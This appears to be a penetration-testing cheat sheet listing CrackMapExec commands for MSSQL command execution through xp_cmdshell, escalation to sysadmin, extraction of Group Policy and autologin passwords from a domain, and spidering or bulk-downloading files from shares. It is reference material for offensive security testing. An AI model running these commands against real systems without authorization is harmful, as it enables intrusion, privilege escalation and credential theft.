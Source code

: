 
## MSSQL Enumeration and Attacks

| **Command**| **Description**|
|-|-|
| `cme mssql <target> -u <u> -p <p> -q <SQL_QUERY>` | Perform an SQL Query againts the target machine. |
| `cme mssql <target> -u <u> -p <p> -x <command>` | Executing Windows command on the target if the option `xp_cmdshell` is available to the user. |
| `cme mssql <target> -u <u> -p <p> -M mssql_priv` | Enumerates MSSQL privileges to scale from a standard user into a sysadmin.  |
| `cme mssql <target> -u <u> -p <p> -M mssql_priv -o ACTION=privesc` | Exploit MSSQL privileges to scale from a standard user into a sysadmin. |
| `cme mssql <target> -u <u> -p <p> -M mssql_priv -o ACTION=rollback` | Rollback user's privileges to standard user. |
| `cme mssql <target> -u <u> -p <p> --share <share_name> --get-file <remote_filename> <output_filename>` | Get a remote file from a shared folder. |
| `cme mssql <target> -u <u> -p <p> --share <share_name> --put-file <local_filename> <remote_filename>` | Put a local file into a remote location. |

---
## Domain Enumeration

| **Command**| **Description**|
|-|-|
| `cme smb <target> -u <u> -p <p> -M gpp_password` | Retrieves the plaintext password and other information for accounts pushed through Group Policy Preferences (GPP). |
| `cme smb <target> -u <u> -p <p> -M gpp_autologin` | Searches the domain controller for registry.xml to find autologin information and returns the username and password. |

---
## File Operations

| **Command**| **Description**|
|-|-|
| `cme smb <target> -u <u> -p <p> --spider <share_name> --pattern <pattern> ` | Search in a remote share for a pattern. | 
| `cme smb <target> -u <u> -p <p> --spider <share_name> --regex <regex> ` | Search in a remote share using regular expression. | 
| `cme smb <target> -u <u> -p <p> --spider <share_name> --content` | Enable content search. Can be combined with --pattern or --regex. | 
| `cme smb <target> -u <u> -p <p> --share <share_name> --get-file <remote_filename> <output_filename>` | Get a remote file from a shared folder. |
| `cme smb <target> -u <u> -p <p> --share <share_name> --put-file <local_filename> <remote_filename>` | Put a local file into a remote location. |
| `cme smb <target> -u <u> -p <p> -M spider_plus -o EXCLUDE_DIR=IPC$,print$,NETLOGON,SYSVOL` | Creates a file containing the shares and files information. We can add the option EXCLUDE_DIR to prevent it from looking into specific shared folders. | 
| `cme smb <target> -u <u> -p <p> -M spider_plus -o READ_ONLY=false` | Download all files from all shared folder. | 

---
